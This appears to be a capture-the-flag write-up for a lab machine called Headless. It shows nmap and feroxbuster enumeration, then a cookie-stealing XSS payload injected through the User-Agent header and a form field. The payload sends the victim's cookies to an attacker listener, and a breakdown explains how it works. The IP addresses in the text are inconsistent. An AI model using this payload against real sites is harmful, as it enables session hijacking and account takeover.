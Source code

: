 # Headless Machine (Linux)

# nmap

22
5000

# 5000

I headed over to port 5000, we are greeted with a "Welcome to Our Website" and a button **For questions** that redirects you to a form. 

I did a quick submit of the form and we can see that form does indeed send. 
Basic rule is; when we see a form with think of XSS. 

I checked the DevTools and when I checked the Storage I saw that there a cookie available for **is_admin**. 

# feroxbuster

`feroxbuster -u http://10.10.15.7:5000`

Results:
200      GET       93l      179w     2363c http://10.10.11.8:5000/support
200      GET       96l      259w     2799c http://10.10.11.8:5000/
500      GET        5l       37w      265c http://10.10.11.8:5000/dashboard


**/dashboard** states that is an Unauthorized page; from the description also gives a hint on how we can get access.

# cookie stealer

Going back to the form and using XSS script, I pulled up Burp; keeping in mind the admin cookie.

From here we sent our page to the Repeater and added my basic XSS script into **User-Agent** and below **fname**.
`<script>document.location = "http://10.10.11.6:7777/?c=" + document.cookie;</script>`

#### **Step-by-Step Breakdown**
1. **`document.cookie`** → Gets all cookies stored for the current website.
2. **`document.location = "http://10.10.11.6:7777/?c=" + document.cookie;`**
   - Redirects the victim's browser to `http://10.10.11.6:7777/`,
   - Appends the victim's cookies as a URL parameter (`?c=...`).
   - Example: If the user's cookie is `is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs`, the URL becomes:
     ```
     http://10.10.11.6:7777/?c=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
     ```
   - This **sends the cookie to the attacker's machine** at `10.10.14.2:7777`.

---